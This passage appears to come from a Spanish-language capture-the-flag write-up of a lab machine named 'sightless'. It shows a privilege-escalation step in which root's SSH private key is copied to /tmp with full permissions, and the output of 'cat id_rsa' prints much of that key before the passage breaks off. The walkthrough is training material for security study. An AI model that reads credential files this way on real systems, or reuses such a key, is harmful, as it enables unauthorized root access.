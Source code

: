 El siguiente paso, será darle los permisos necesarios a la copia de la clave privada para poder utilizarla correctamente. Modificaremos la versión de PHP tal como realizamos anteriormente y volveremos a iniciar el servicio.

<figure><img src="../../../../.gitbook/assets/imagen (189).png" alt=""><figcaption></figcaption></figure>

Al cabo de un tiempo, verificamos que el archivo `id_rsa` ha sido modificado correctamente con permisos totales.

```bash
michael@sightless:~$ ls -l /tmp
total 32
-rwxrwxrwx 1 root root 3381 Jan 17 01:45 id_rsa
...[snip]...
```

Procederemos a verificar el contenido de la clave privada SSH del usuario `root`.

```bash
michael@sightless:/tmp$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
```